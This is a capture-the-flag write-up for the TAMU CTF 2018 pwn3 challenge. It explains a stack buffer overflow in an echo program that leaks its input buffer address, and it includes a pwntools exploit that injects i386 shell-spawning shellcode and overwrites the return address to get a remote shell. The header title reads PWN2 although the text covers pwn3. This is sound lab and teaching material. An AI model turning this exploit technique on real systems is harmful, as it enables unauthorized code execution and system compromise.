 ```yaml
---
title:  TAMU CTF 2018 - PWN2
author: zangobot
layout: writeup
category: ctf
tags: [ ctf, springchicken, challenge ]
---
```

pwn3 is the natural evolution of [pwn2]({{site.base_url}}/writeups/TAMU2018/pwn2):

```
Welcome to the New Echo application 2.0!
Changelog:
- Less deprecated flag printing functions!
- New Random Number Generator!

Your random number 0xffc9967a!
Now what should I echo? springchicken_is_ok
springchicken_is_ok
```
Again, no canary and for the first time, NX disabled (this is nice).

BUT ASLR is enabled!
There is no `print_flag` function... man this is though.

Or maybe not? NX is disabled, so I can put a shellcraft into the stack and execute it.

But how can I reference it? Just look at the output of radare2.

The address printed at the beginning is the address of the input string.

**BINGO.**


```
from pwn import *

OFFSET = 242 #found using ragg2

rem = remote('pwn.ctf.tamu.edu', 4323)

#read useless line
for i in range(0,5):
    rem.recvline()

#this is the address line
to_grep = rem.recvline()

#this is the address
address = '0x'+to_grep[::-1][2:10][::-1]
address = p32(int(address,16))

#voilà
shellcode = asm(shellcraft.i386.sh())
exploit = shellcode + 'A'*(OFFSET - len(shellcode)) + address

rem.sendline(exploit)
rem.interactive()


```

Flag captured <.<
